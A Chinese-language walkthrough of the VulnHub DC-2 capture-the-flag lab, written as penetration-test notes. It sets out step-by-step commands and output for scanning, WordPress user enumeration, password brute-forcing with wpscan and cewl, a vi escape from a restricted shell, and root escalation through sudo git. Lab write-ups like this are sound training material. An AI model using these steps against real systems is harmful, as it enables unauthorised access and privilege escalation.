










# DC: 2

下载地址：https://download.vulnhub.com/dc/DC-2.zip

## 实战演练

发现靶场IP：`192.168.32.160`



扫描对外开放端口

```
┌──(root💀kali)-[~/Desktop]
└─# nmap  -sT -sV  -p1-65535 192.168.32.160                                                                                                                                                                                            
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-21 22:19 EDT
Nmap scan report for 192.168.32.160
Host is up (0.00097s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
MAC Address: 00:0C:29:BA:64:08 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.32 seconds

```

浏览器访问80端口



会跳转到`dc-2`的域名，需要本地hosts

```
┌──(root💀kali)-[~/Desktop]
└─# cat /etc/hosts

192.168.32.160 dc-2
```

再次访问，可以看到有正常的内容，可以看到这是一个`wordpress`框架



点击页面查看发现有个flag提示，需要使用`cewl`生成字典



使用wpscan进行扫描

```
┌──(root💀kali)-[~/Desktop]
└─# wpscan --url http://dc-2                                                                                                                                                                                                            
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.14
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]N
[+] URL: http://dc-2/ [192.168.32.160]
[+] Started: Tue Jun 21 22:45:26 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://dc-2/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] WordPress readme found: http://dc-2/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://dc-2/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.7.10 identified (Insecure, released on 2018-04-03).
 | Found By: Rss Generator (Passive Detection)
 |  - http://dc-2/index.php/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>
 |  - http://dc-2/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://dc-2/wp-content/themes/twentyseventeen/
 | Last Updated: 2022-05-24T00:00:00.000Z
 | Readme: http://dc-2/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.0
 | Style URL: http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <==============================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Jun 21 22:45:30 2022
[+] Requests Done: 171
[+] Cached Requests: 5
[+] Data Sent: 39.584 KB
[+] Data Received: 356.633 KB
[+] Memory used: 226.422 MB
[+] Elapsed time: 00:00:04

```

枚举wordpress用户

```
┌──(root💀kali)-[~/Desktop]
└─# wpscan --url http://dc-2 --enumerate u

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <===============================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jerry
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

使用cewl抓取网站的密码单词

```
┌──(root💀kali)-[/tmp]
└─# cewl  http://dc-2 > password.txt
```

新建用户表

```
admin
jerry
tom
```

使用wpscan爆破用户密码

```
┌──(root💀kali)-[/tmp]
└─# wpscan --url http://dc-2 -U user.txt -P password.txt -t 50

[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```

进入管理后台进行登录



找到flag2提示，说其他地方也可以应用账号密码



使用tom账号发现可以登录ssh

```
┌──(root💀kali)-[/tmp]
└─# ssh -p 7744 tom@192.168.32.160                                                                                                                                                                                                     
tom@192.168.32.160's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tom@DC-2:~$ 

```

`/bin` 中不存在 cat 程序，而 tom 只能运行 `/bin` 目录中存在的五个程序。



由于我们有一个受限的 shell，我们发现我们可以使用 Vi 编辑器。因此，我们使用 Vi 编辑器来逃避受限的 shell。

```
:set shell=/bin/bash
:shell
```

配置shell环境变量

```
tom@DC-2:~$ export PATH=/bin:/usr/bin:$PATH
tom@DC-2:~$ export SHELL=/bin/bash:$SHELL
```

查看flag3.txt

```
tom@DC-2:~$ ls
flag3.txt  test  usr
tom@DC-2:~$ cat flag3.txt 
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```

按照提示，切换到jerry用户，**密码是jerry的密码**

```
tom@DC-2:~$ su jerry
Password: 
jerry@DC-2:/home/tom$ 
```

查看sudo列表

```
jerry@DC-2:/home/tom$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
```

使用git进行提权

```
git help status
```



```
!/bin/bash
```




